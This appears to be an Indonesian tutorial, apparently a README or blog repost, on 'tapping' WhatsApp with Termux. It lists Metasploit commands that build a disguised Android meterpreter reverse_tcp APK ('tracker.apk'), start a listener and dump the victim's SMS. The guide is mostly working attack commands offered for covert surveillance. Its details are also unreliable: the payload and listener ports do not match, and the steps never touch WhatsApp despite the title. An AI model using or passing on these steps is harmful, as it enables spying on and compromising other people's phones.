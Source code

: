 # sadapwa dengan termux


Sadap wa dengan termux , meskipun tutorial kali ini susah untuk dilakuka untuk para pemula tapi setidaknya kita mencoba terlebih dahulu gimana cara sadap wa dengan menggunakan aplikasi termux, untuk tutorial lengkapnya di bawah ini
buka aplikasi termux
masukan semua kode perintah di bawah ini satu persatu
 apt update && apt upgrade
pkg install unstable-repo
pkg install metasploit
kode perintah untuk sadap wa
 msfconsole
kemudian masukan kode perintah di bawah ini
 msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=8080 -o /sdcard/tracker.apk 
kode perintah Proses sadap wa
 use multi/handler
. set payload android/meterpreter/reverse_tcp
. set lhost 192.168.1.101
. set lport 4444
. exploit
menjalankan perintah sadap wa
 dump_sms


untuk informasi lengka cek di https://www.kumpulanremaja.com/2019/12/cara-sadap-chatting-whatsapp.html
